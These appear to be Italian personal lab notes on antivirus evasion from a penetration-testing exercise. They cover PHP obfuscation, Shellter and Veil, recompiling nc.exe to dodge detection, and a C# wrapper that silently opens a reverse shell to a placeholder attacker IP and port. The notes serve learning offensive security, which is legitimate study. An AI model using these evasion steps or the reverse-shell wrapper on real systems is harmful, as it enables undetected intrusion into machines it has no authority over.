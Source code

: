 ## Theory

[[AV Bypass Theory]]

## Tools & Practice

#### PHP Obfuscation 

E' possibile obfuscare PHP per evadere check base di antivirus. Nel mio caso sulla macchina Wreath non ne ho avuto bisogno ma in generale e' buono passare i propri script su un ubfuscator online come:



#### Shellter & Veil

Shellter e' un vecchio progetto di DLL injection all-interno di windows PE (EXECUTABLES). La parola chiave qua e' "vecchio". Questo significa che, oltre alla versione premium di shellter, non e' molto affidabile il risultato.

Veil e' un framework piu recente per offuscare eseguibili.

https://github.com/Veil-Framework/Veil


## Cross Compiling
#### nc.exe recompiled
nc.exe ha uns acco di versioni online e quella precompilata in kali e' riconosciuta da AV.
Clonando la repo, modificando un po lo script e ricompilandolo dovrei essere in grado di bypassare soluzioni av piu comuni.

Nel caso di nc.exe nella repo e; presente un Makefile con i vari step di compilazione impostati.
**In generale invece di passare gli argument di compilazione a caso e; sempre meglio modificare un makefile con le impostazioni di compilazioni (generalmente il binary del compiler) specifiche.

La cosa che infatti ci interessa e' il compiler. Nel caso di windows **x64** su linux usiamo `mingw-w64`.

**Ricordiamoci che questo e' chiamato Cross-Compiling**

In particolare il binary che ci interessa e': x86_64-w64-mingw32-gcc

ci sono un sacco di binaries del compiler, basta tabbare parte del comando `x86_64-` per vederli.

Una volta modificato, dentro la stessa directory del Makefile facciamo `make`.

Ora possiamo caricare e sperare che l'av non rompa il cazzo.


#### Create an executable wrapper for a malicious executable
Ovvero come crearci un .exe che permette di eseguire binary (possibilmente che abbiamo testato non vengono rilevati dal defender).

usando `mono-devel` possiamo compilare codice c# come se fossimo su visual studio

Creiamo un file `Wrapper.cs`
Questo il codice:

```
using System;  
using System.Diagnostics;
namespace Wrapper{  
    class Program{  
        static void Main(){  
            //Our code will go here!  
			Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");
			//non creare la gui
			procInfo.CreateNoWindow = true;
			proc.StartInfo = procInfo;
            proc.Start();


        }  
    }  
}

```


infine compiliamo con `mcs Wrapper.cs`